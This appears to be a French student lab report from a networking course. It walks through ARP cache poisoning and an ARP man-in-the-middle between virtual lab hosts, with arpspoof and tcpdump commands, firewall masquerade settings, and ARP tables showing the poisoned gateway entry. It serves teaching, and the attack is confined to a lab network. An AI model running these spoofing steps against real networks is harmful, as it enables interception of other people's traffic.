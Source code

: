 # 🌞 Empoisonnez la table ARP de node2.tp1.my  
Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether   00:15:5d:01:01:03   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```
Ouvrir un terminal dans node1.tp1.my  
```bash
sudo tcpdump -w arp_spoof_1.pcap
```

Ouvrir un autre terminal dans node1.tp1.my  
```bash
sudo arpspoof -t 10.1.1.101 10.1.1.253
```  

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether   00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

# 🌞 Ecrire un script Scapy qui fait le travail de arpspoof  
Le [script python](./arp_spoof.py)  
La [capture Wireshark](./arp_spoof_2.pcap)  

# 🌞 Mettre en place un MITM ARP  
```bash
sudo firewall-cmd --add-masquerade --permanent  
sudo firewall-cmd --reload  
```  

Ouvrir un terminal dans dhcp.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.101               ether   00:15:5d:01:01:05   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253               ether   00:15:5d:01:01:03   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans node1.tp1.my  
```bash
sudo tcpdump -w arp_spoof_1.pcap
```  

Ouvrir un terminal dans node1.tp1.my  
Le [script python](./arp_mitm_1.py)   
🦈 Capture ARP Spoof --> [arp_mitm_1.pcap](./arp_mitm_1.pcap)  
  
```bash
sudo python arp_mitm_1.py
```  

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether  00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans dhcp.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.101               ether   00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```